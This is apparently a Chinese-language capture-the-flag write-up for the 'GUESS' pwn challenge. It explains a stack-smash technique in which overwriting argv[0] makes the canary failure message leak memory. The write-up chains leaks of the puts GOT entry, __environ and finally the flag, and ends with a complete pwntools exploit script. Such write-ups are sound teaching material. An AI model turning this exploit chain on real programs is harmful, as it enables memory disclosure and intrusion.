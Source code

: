 首先checksec

![image-20210413125356579](https://static.hack1s.fun/images/2021/04/13/image-20210413125356579.png)

反编译main函数

![image-20210413125438694](https://static.hack1s.fun/images/2021/04/13/image-20210413125438694.png)

里面打开了flag，之后读0x30到buf

一共可以输入三次，每次都是gets函数可以溢出

但是程序开启了canary，所以需要想办法绕过canary

这里调试到gets时

![image-20210413145133466](https://static.hack1s.fun/images/2021/04/13/image-20210413145133466.png)

输入的缓冲区是`db40`，argv[0]在`dc78`，flag在`db10`

所以用stack smash把`argv[0]`覆盖成flag的地址就可以了(这里蛮奇怪，自己调试看到相差0x138，但是打不通，看了别的writeup改成128就通了)

但是由于我们不知道栈上的地址，需要先泄漏栈上的内容

首先泄漏`puts`在got表中的地址，计算得到libc基地址；

```python
payload1 = b'a'*0x128 + p64(elf.got['puts'])
puts_got = u64(io.recv(6).ljust(8,b'\x00'))
```

通过libc基地址计算出libc中的`__environ`的地址

第二次泄漏出`__environ`的值，即栈上的地址；

```python
payload2 = b'a'*0x128 + p64(environ_addr)
stack_addr = u64(io.recv(6).ljust(8,b'\x00'))
```



最后计算出存储flag的buf与`environ`之间的距离，泄漏出flag

例如图中，`envrion`地址是`dc78`，flag所在buf地址为`db10`

两者相差`0x168`

```python
payload3 = b'a'*0x128 + p64(stack_addr - 0x168)
```

最终payload

```python
from pwn import *
from LibcSearcher import *

context.log_level = 'debug'
context.terminal = ['konsole','sh','-e']
io = process('GUESS')
#  io = remote('node3.buuoj.cn',27674)
elf = ELF('./GUESS')

payload1 = b'a'*0x128+p64(elf.got['puts'])

io.recvuntil('guessing flag\n')
io.sendline(payload1)

io.recvuntil('***: ')
#
puts_got = u64(io.recv(6).ljust(8,b'\x00'))
print("Puts Addr:",hex(puts_got))

libc = LibcSearcher('puts',puts_got)

libc_base = puts_got - libc.dump('puts')
print("Libc Base:",hex(libc_base))

environ = libc_base + libc.dump('__environ')

payload2 = b'a'*0x128 + p64(environ)
io.recvuntil('guessing flag\n')
io.sendline(payload2)

io.recvuntil('***: ')
stack_addr = u64(io.recv(6).ljust(8,b'\x00'))
print("Stack End:",hex(stack_addr))

payload3 = b'a'*0x128 + p64(stack_addr - 0x168)
io.recvuntil('guessing flag\n')
io.sendline(payload3)
io.recvuntil('***: ')
flag = io.recvline()
print(flag)

io.interactive()
```

总结一下，这里面用到的技术是stack smash，在CTF wiki里面花式栈溢出的部分

原理就是canary被破坏的时候会调用`__stack_chk_fail`

在低版本的lib中实际上执行的代码是
```C
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}

void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```

这里如果覆盖了`__libc_argv[0]`为自己想要输出的内容，就实现了一个任意地址读的效果

就可以读到flag了